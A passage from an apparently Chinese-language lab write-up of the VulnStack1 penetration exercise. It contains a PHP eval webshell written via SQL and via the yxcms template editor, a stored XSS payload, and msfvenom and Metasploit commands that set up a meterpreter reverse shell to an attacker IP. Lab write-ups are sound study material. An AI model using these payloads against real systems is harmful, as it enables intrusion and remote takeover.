 然后写入一句话木马
```sql
select '<?php @eval($_POST['cmd']);?>'
```

虽然会报错，但是木马还是写进去了
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_6.png)

#### 攻击 yxcms 后台管理系统

访问 /yxcms/index.php，在右侧的公告信息中直接给出了后台登录方式、账户和密码

访问 /yxcms/index.php?r=admin/index/login，输入给出的 admin/123456

在 “全局设置” - “前台模板” - “管理模板文件” - “新建” 中，直接写入一句话木马

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_7.png)

从之前下载 beifen.rar 备份文件，得到比如说 acomment.php 页面的路径，从而得到创建的一句话木马的路径 /yxcms/protected/apps/default/view/default/shell_test.php
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_8.png)

#### 留言板页面 xss 漏洞

回到 /yxcms/index.php 页面，在留言板处存在 xss 漏洞
```js
<script>alert('xss')</script>
```
填入 xss 攻击代码，然后提交，显示等待后台管理员审核
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_9.png)

如果后台管理员对留言内容进行审核时候，就会触发 xss 漏洞
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_10.png)

## 后渗透攻击

在后渗透攻击阶段，我们已经将小马上传到 web 服务器上了，这样就可以用 webshell 管理工具进行下一步渗透了

### 使用 msf 建立对话
这里使用 msf，kali 的 ip 为 192.168.136.131
使用 msf 生成 exe
```shell
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.136.131 LPORT=1234 -f exe -o run2.exe
```
启动 msf并开启监听

```shell
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.136.131
set lport 1234
exploit -j
```

